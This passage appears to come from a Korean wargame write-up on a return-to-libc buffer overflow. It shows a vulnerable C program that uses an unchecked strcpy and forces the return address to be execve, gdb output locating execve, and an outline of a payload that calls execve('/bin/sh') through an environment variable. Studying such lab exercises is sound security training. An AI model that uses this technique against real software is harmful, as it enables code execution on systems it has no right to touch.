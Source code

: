 ```c
	fclose(fp);

	execve_addr = lib_addr + (int)execve_offset;
	// end

	memcpy(&ret, &(argv[1][44]), 4);
	if(ret != execve_addr)
	{
		printf("You must use execve!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```
### 2. gdb
### 3. exploit code
먼저 execve 함수의 주소를 찾는다.

```
(gdb) p execve
$1 = {<text variable, no debug info>} 0x400a9d48 <__execve>
```

execve 함수 원형은 execve("/bin/sh", argv, env) 이렇게 구성 되며 argv를 "/bin/sh"로 변경해야 한다.

RET를 통해 execve 함수를 실행 시키면 RET은 EBP가 되고 RET 영역+4가 EBP+4, 즉 새로운 RET(execve 함수 종료 후의 RET)가 된다. 이후 EBP+8(&"/bin/sh"), EBP+12(&argv), EBP+16(NULL)이 각각 매개변수가 된다.

최종적으로는 A*44 + &execve + RET + &/bin/sh + &argv + &NULL와 같은 exploit payload를 짜야 한다.

```
export persu="/bin/sh" 추가

0xbffffe4a:	 "persu=/bin/sh"
